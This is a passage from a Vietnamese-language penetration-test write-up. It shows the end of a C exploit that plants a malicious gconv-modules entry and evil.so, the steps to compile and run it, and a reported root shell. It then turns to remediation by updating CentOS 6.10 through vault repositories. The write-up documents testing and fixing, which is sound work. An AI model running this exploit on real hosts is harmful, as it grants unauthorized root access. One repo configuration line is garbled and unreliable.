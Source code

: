 ```js
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    return 0;
}
```

#### **Bước 6: Biên dịch mã khai thác**

- Sử dụng lệnh `make` để biên dịch mã khai thác.
    
    **Kết quả:**
    
    - Các file `evil.so` và `exploit` được tạo thành công.

#### **Bước 7: Chạy khai thác**

- Chạy khai thác với lệnh:
```js
./exploit
```

**Kết quả:**

- Sau khi chạy khai thác, người dùng đã có được một shell root

![Screenshot 2025-05-27 111319](https://github.com/user-attachments/assets/c252a895-2c9a-4bf4-9626-be741c6b1242)


## 5. Cập nhật CentOS lên bản mới nhất và hướng dẫn fix lỗ hổng JBoss

### **1. Cập nhật máy chủ centos lên bản mới nhất để khắc phục lỗ hổng leo quyền**

##### Bước 1: Sao lưu các repo cũ

Backup lại các file `.repo` hiện tại (phòng khi lỗi):
```js
sudo mkdir /etc/yum.repos.d/backup
sudo mv /etc/yum.repos.d/*.repo /etc/yum.repos.d/backup/
```

##### Bước 2: Tạo repo mới trỏ vào vault

Tạo file repo mới:

```js
sudo tee /etc/yum.repos.d/CentOS-Vault.repo > /dev/null <<EOF
[base]
name=CentOS-6.10 - Base
baseurl=http://vault.centos.org/6.10/os/\$basearch/
gpgcheck=13: Dọn dẹp cache YUM và tiến hành cập nhật

1. Làm sạch cache:
    
```js
sudo yum clean all
```
